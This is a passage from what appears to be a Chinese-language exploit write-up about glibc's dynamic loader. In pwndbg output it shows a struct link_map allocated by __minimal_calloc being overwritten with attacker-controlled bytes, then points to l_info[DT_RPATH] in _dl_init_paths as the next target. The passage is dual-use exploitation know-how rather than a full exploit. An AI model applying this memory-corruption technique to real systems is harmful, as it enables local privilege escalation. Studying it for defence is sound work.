 如此，当再次申请内存，调用`__minimal_calloc`

```bash
pwndbg> b *(_dl_new_object+109)
pwndbg> c
   0x7f4908e899fd <_dl_new_object+109>     call   qword ptr [rip + 0x2c06d]     <__minimal_calloc>
pwndbg> ni
*RAX  0x7f4908e74c40 ?— 0x0
```

查看结构

```bash
pwndbg> b *(_dl_new_object+115)
pwndbg> c
   0x7ffaa8c249fd <_dl_new_object+109>: call   QWORD PTR [rip+0x2c06d]        # 0x7ffaa8c50a70 <__rtld_calloc> # __minimal_calloc
=> 0x7ffaa8c24a03 <_dl_new_object+115>: mov    r14,rax
pwndbg> p *((struct link_map *) $rax)
$1 = {
  l_addr = 4774451407232463713,
  l_name = 0x4242424242424242 <error: Cannot access memory at address 0x4242424242424242>,
  l_ld = 0x4242424242424242,
  l_next = 0x4242424242424242,
  l_prev = 0x4242424242424242,
  l_real = 0x4242424242424242,
  l_ns = 4774451407313060418,
  l_libname = 0x4242424242424242,
  l_info = {0x4242424242424242 <repeats 17 times>, 0x696c673a42424242, 0x6f6c6c616d2e6362, 0x74736166786d2e63, 0x3d, 0x0 <repeats 24 times>, 0x2e6362696c673a00, 0x6d2e636f6c6c616d, 0x3d7473616678, 0x0 <repeats 29 times>},
```

成功覆盖`struct link_map`

### `link_map->l_info[DT_RPATH]`成员变量

定位到

`elf/dl-load.c`文件

`_dl_init_paths`函数

[![](assets/1703485170-cc5ae19f693552010292c0bf722bd67b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231224141520-d0a2520c-a223-1.png)
